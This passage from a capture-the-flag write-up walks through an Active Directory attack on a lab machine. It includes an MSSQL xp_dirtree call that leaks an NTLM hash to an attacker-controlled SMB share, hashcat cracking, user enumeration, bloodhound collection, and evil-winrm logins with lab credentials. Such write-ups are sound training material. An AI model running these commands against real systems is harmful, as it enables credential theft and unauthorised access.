 ```
exec master.sys.xp_dirtree '\\10.10.14.8\shares\es',1, 1
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912103646.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912103631.png)

Let's attempt to crack it via hashcat 

```
hashcat -m 5600 hash  /usr/share/wordlists/rockyou.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912103745.png)

SQL_SVC  REGGIE1234ronnie
Now enumerate with new user, we have access with winrm and gather all users

```
nxc smb 10.10.11.202 -u "SQL_SVC" -p "REGGIE1234ronnie" --users
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912103955.png)

## Gaining Access

Let's run bloodhound to check for sth intersting 

```
bloodhound-python -d sequel.htb -u SQL_SVC -p REGGIE1234ronnie -ns 10.10.11.202 -c all
```

Didn't find anything useful in bloodhound so I back to evil-winrm and found non-default folder in c drive

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912110407.png)

In C:\sqlserver\logs\ERRORLOG.BAK I found logon failed with username and password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912110720.png)

Ryan.Cooper NuclearMosquito3
Checking above credentials and login with evil-winrm

```
evil-winrm -i 10.10.11.202 -u "Ryan.Cooper" -p "NuclearMosquito3"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912111140.png)

## Privilege Escalation

Nothing in whoami /all, bloodhound. etc so let's check for ADCS

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912111803.png)
